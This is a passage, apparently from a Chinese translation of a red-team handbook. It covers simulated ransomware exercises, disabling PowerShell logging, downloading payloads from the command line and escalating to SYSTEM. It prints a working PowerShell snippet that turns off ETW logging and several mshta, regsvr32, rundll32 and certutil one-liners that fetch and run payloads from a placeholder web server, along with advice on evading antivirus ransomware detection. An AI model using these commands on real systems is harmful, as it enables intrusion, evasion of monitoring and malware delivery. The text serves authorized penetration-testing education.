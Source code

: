 ## 具有创新性的的入侵行动
作为公司的内部红队可以有机会参加具有创新性的的入侵行动。我最喜欢的行动之一是模拟勒索软件。在过去，我们被允许在 WannaCry 大面积爆发的时期进行模拟勒索软件行动。随着加密软件和勒索软件越来越受欢迎，我们确实需要有能力测试我们的业务恢复和遇难恢复程序。我们在现实生活中见证了这一点，WannaCry 通过 SMB 进行横向移动，利用 EternalBlue ，加密文件等攻击，甚至删除了主机系统上的所有备份。作为一个 IT 组织，我们需要问自己的问题是，如果我们的某个用户点击了该恶意软件，会产生什么影响？我们可以恢复用户文件、共享文件、数据库等东西吗？我们一直听到的答案是，“我觉得可以......”，但如果没有红队提前验证的过程，我们最终会等到我们的房子被烧成灰后才知道是不是真的可以。

这就是为什么我喜欢公司内部进行红队评估的原因。我们可以在受控环境中真正证明并验证安全性和 IT 是否正常运行。对于这本书，我没有列举任何我们的勒索软件的例子，因为这样做很危险。我将让你负责构建工具并以批准的方法测试你的客户。

模拟勒索软件行动提示：
* 有些公司实际上不会让入侵者删除或加密文件。对于这些公司，你可以进行模拟勒索软件攻击。一旦恶意软件被执行，它所做的就是扫描主机和网络中的重要文件，将每个文件读入内存，执行随机字节交换，将这些字节发送到 C2 服务器，并包含元数据。这将展示出你能够操作的文件数量，在检测到流量之前可以从网络中渗透出的数据量以及可以恢复的文件数量。
* 查看其他勒索软件样本以查看他们正在加密的文件类型。这可以创造一个更接近现实的行动。例如，查看 WannaCry 中的文件类型（ https://gist.github.com/rain-1/989428fa5504f378b993ee6efbc0b168 ）。
* 如果你要 “加密” 恶意软件，请使用简单的方法。它可以是带有密钥的标准 AES，一个公共或私有的 x509 证书，或某种按位异或。制作它越复杂，无法恢复文件的可能性就越大。
* 测试、测试和测试。你可以预见的最糟糕的事情是让目标公司无法恢复关键文件，并且你的解密过程还不起作用。
* 许多下一代杀毒软件基于链中的某些动作会自动阻止勒索软件。例如，勒索软件可能执行的正常检测是：扫描系统中所有类型为 X 的文件，加密 X 文件，删除磁盘中的副本以及禁用备份。想要绕过检测过程的话，要么减慢勒索软件的活动流程，要么通过不同的流程达到相同的目的。

## 禁用 PowerShell 记录
作为红队队员，我们一直在寻找独特的方法来尝试和禁用任何类型的日志记录。虽然现在也有办法执行这些攻击，但我们仍在不断寻找新的更简单的技术。

以下是一个 leechristensen 写的[示例](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs)，可用于禁用 PowerShell 日志记录：
- $EtwProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static');
- $EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid());
- $EtwProvider.SetValue($null, $EventProvider);

## 从命令行连接网络下载 Windows 文件
如果你通过应用程序漏洞获得了命令执行，又或者是通过 Office 或 PDF 文件获取了 shell，那么接下来的步骤可能是下载并执行你的辅助恶意软件。

对于这些情况，我们可以利用 Windows 的一些特性来完成任务。大多数这些例子来自 arno0x0x 和 @subtee 的卓越的研究成果（ https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code ）。

* mshta vbscript:Close(Execute(“GetObject(““script: http://webserver/payload.sct ””)”)) 
* mshta http://webserver/payload.hta
* rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
* regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
* certutil -urlcache -split -f http://webserver/payload payload
* certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
* certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe

这些只是其中几个例子，还有更多通过命令行来执行辅助代码的方法。你还可以继续研究，看看是否还有其他技术可以用来从传统的日志记录中隐匿行踪。

## 从本地管理员权限到系统权限
从本地管理员帐户权限提升到 System 权限可以通过多种方式完成。当然，最常见的方法是使用 Metasploit 的 `getsystem`，但这并不总是可行的。[decoder-it](https://github.com/decoder-it/psgetsystem) 创建了一个非常棒的 PowerShell 脚本，通过创建一个新进程并将该新进程的父进程 PID 设置为 System 所拥有，从而让本地管理员权限的 PowerShell 提示符转到 System 权限。可以在[此处](https://github.com/decoder-it/psgetsystem  
)找到此 PowerShell 脚本。
